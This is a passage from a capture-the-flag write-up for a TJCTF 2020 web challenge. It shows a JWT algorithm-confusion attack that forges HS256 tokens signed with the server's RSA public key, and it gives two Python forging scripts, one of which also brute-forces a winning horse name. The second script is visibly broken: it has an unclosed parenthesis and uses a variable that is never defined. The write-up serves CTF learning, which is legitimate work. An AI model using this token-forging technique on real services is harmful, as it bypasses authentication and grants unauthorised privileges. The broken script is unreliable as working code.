 ![web](/assets/img/TJCTF20/web_11.png)

This means there is a private RSA key on the server used to sign fresh tokens. As we're given the public key, we can try to forge new custom tokens by changing token's algorithm to _HS256_ and trying to sign tokens using the public key. If it works, the backend will try to validate the token using the public key as the HS256 algorithm instead.
Reference : [Hacking JSON Web Token (JWT)](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6){:target="_blank"}

```python
#!/bin/python
import jwt
import hashlib

public = open('pubkey.pem', 'r').read()
data = {
        "user": True,
        "is_omkar": True,
        "money": 150,
        "horses": ["TEST_HORSE"]
}
print(jwt.encode(data, key=public, algorithm='HS256').decode('utf-8'))
```

And yeah, it worked! We can forge custom tokens.

![web](/assets/img/TJCTF20/web_12.png)

Our final task is finding the best and the fastest horse. We can put it all together and find our horse :

```python
#!/bin/python
import jwt
import hashlib
import random
import string

BOSS_HORSE = "MechaOmkar-YG6BPRJM"
boss_speed = int(hashlib.md5(("Horse_" + BOSS_HORSE).encode()).hexdigest(), 16)
print("Should beat BOSS speed {}".format(boss_speed))


def randomString(stringLength=8):
    letters = string.ascii_uppercase
    return ''.join(random.choice(letters) for i in range(stringLength))

found = False
while not found:
    race_horse = "{}".format(randomString(48)
    if your_speed > boss_speed:
        print("Found it : {}".format(race_horse))
        found = True


print("My speed : {}".format(your_speed))
print("BOSS speed : {}".format(boss_speed))

public = open('pubkey.pem', 'r').read()
data = {
        "user": True,
        "is_omkar": True,
        "money": 150,
        "horses": [race_horse]
}
print(jwt.encode(data, key=public, algorithm='HS256').decode('utf-8'))
```